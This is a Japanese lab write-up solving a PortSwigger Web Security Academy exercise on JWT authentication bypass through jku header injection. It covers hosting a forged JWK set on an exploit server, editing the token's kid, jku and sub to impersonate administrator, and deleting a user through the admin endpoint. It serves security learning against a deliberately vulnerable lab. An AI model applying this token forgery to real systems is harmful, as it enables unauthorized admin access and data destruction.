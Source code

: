 # jku ヘッダー インジェクションによる JWT 認証バイパス

次のハッキングラボを実施  
https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection  
のラボでは、セッションの処理に JWT ベースのメカニズムを使用します。サーバーは、WT ヘッダーのパラメーター jku をサポートします。ただし、キーを取得する前に、指定された URL が信頼できるドメインに属しているかどうかを確認できません。

- 1. BurpSuite を起動して、Proxy タブからブラウザを立ち上げます

* 2. BurpSuite の拡張機能で JWT Editor をインストールします

- 3. ブラウザからハッキングラボにアクセスします
- 4. 一般ユーザーでログインします

* 5. GET /my-account?id=wiener HTTP/2 リクエストを send to repeater します
* 6. GET /admin に変更してリクエストを送信します。  
     administrator じゃないと admin ページが利用できません。

```
HTTP/2 401 Unauthorized
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2614
```

- 7. JWT Editor key タブを選択して、New RSA key 押下します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/7537741e-403d-4c99-8fda-1e819d7cb55d)

- 8. Generate 押下し、OK 押下します
     ![2](https://github.com/pea-sys/web-security-experiments/assets/49807271/0fd041ab-878f-4418-b70c-21834e3888ce)

* 9. エクスプロイトサーバに移動して、Body に次のように記載します

```json
{
  "keys": []
}
```

- 10. JWT Editor key を選択して、Copy Public Key as JWK を選択
      ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/6a15319d-7ee3-4da6-ab16-3750ac767eb1)

- 11. エクスプロイトサーバーのファイルボディ部に貼り付けて Store 押下

```json
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "kid": "832b7917-d505-41a9-8254-ab3655dab9e7",
      "n": "xUjtF21rmNxp37OaebNf-hDgE3DOUvJ-rNq8UAwoCfLiEJac3JAikgw-kWFoLCzunf4jk75btfjjnXqs1CLT2sYkZ46_7WBlfaMQhZrXds5AVRPSgD6zNANyRBwP07mq1b7CgtAfTAvWt8aaU5ZmrfL8T_sVDLbZTiblp034-e36jh8n61oXu6a2NP_rRNFFplooXuNdPlmFQkJr3pwF2F9HjKSCtWey0c0eCMFIpq5Liw_zVK9I2u-FxjZAOHp9o_JFR-mYugRpxMMIbfcH8xkjmiOoaZB7k7M8yzHopJbfmZYLsQrwoN8JdZ0cBW1qFpdDx_hvOVpwDZ6kChhOtQ"
    }
  ]
}
```

12. Repeater タブの JWK を編集します。  
    ■ ヘッダー

- kid をエクスプイットサーバと同じ値に。
- jku を新たに追加し、エクスプロイトサーバ URL をセット。  
  ■ ボディ
- sub を administrator
  ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/28d32a6d-89e6-450a-894f-3e60fa9eec75)

- 13. リクエストを送信すると管理者ページが利用できます.
      一般ユーザーの削除リンクが得られます。

- 14. リクエストのエンドポイントを次のように変更すると一般ユーザーが削除できます。

```
GET /admin/delete?username=carlos HTTP/2
```

レスポンス

```
HTTP/2 302 Found
Location: /admin
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```
